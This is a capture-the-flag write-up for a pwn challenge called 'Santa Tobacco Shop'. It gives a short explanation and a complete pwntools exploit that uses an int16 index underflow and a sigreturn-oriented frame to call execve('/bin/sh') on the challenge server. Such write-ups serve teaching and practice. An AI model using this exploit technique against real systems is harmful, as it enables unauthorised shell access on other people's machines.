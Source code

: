 ```yaml
---
title: "[pwn] Santa Tobacco Shop"
categories:
  - CTF/pwn
tags:
  - srop
  - int underflow
---
```


> checksec: disable all
> 

First, we build `rev` sigreturn frame (due to int underflow) call execve, `rdi` point to a var at bss section.

why stack frame can pop registers? After `leave` instruction, `rsp`  point to top of frame

Then, input `/bin//sh` to get shell

---

## xpl.py

```python
#!/usr/bin/env python3
from pwn import *
def start(argv=[], *a, **kw):
  return remote('challs.xmas.htsp.ro', 2002, *a, **kw)

gs = '''
init-pwndbg
b *0x401193
'''.format(**locals())

bss_inp = 0x402000

'''
; syscall execute, then input '/' to quit
syscall
mov eax, 0
mov edi, 0
mov rsi, offset bss_inp
mov edx, 8
syscall     ; read(stdin, bss_inp, 8)
'''
syscall = 0x401114

'''
mov eax, 0xf
nop
syscall
'''
sigreturn = 0x401199

# need rev because we write from hight to low addr
def sigreturn_execve():
  frame = SigreturnFrame()
  frame.rax = 0x3b  # execve syscall
  frame.rdi = bss_inp
  frame.rsi = 0   # NULL
  frame.rdx = 0   # NULL
  frame.rip = syscall

  frameValList = list(frame.values())
  frameValList.reverse()
  return flat(frameValList)

def send_buf(io, s):
  io.sendafter(b'(/quit to leave)\n', s)

exe = './main'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'

io = start()

frame = sigreturn_execve()
# int underflow
# wrap around with unsigned int16 index
send_buf(io, b"A" * (65496 - len(frame)))
send_buf(io, frame)
# overwrite rip by sigreturn syscall
send_buf(io, p64(sigreturn))
send_buf(io, b'//bin/sh\x00')
io.interactive()
```

---

more detail: https://memn0ps.gitlab.io/XMAS-Pwn-Santa-Tobacco-Shop/
